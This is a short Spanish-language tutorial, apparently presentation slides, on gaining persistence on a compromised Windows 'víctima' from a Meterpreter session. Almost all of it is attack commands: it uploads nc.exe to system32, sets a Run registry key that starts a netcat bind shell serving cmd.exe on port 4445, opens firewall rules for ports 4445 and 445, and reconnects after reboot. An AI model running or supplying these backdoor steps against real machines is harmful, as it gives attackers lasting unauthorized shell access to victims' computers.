

Persistencia
upload /usr/share/windows-binaries/nc.exe C:\\Windows\\system32
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
Ahora vamos a setear el valor del registro:
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v netcat -d ‘C:\windows\system32\nc.exe -Ldp 4445 -e cmd.exe’
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
Abrimos una shell con el comando:
shell
execute -f cmd -i
netsh firewall show opmode
Y abriremos el puerto en el firewall:
netsh advfirewall firewall add rule name=’netcat’ dir=in action=allow protocol=Tcp localport=4445
netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL
Para saber que todo está bien configurado pondremos:
netsh firewall show portopening
Veremos que tenemos la regla de netcat en el firewall.
Una vez reiniciemos el pc víctima, para conectarnos a él usaremos el comando:
nc  -nv [IP VÍCTIMA] [PUERTO/4445]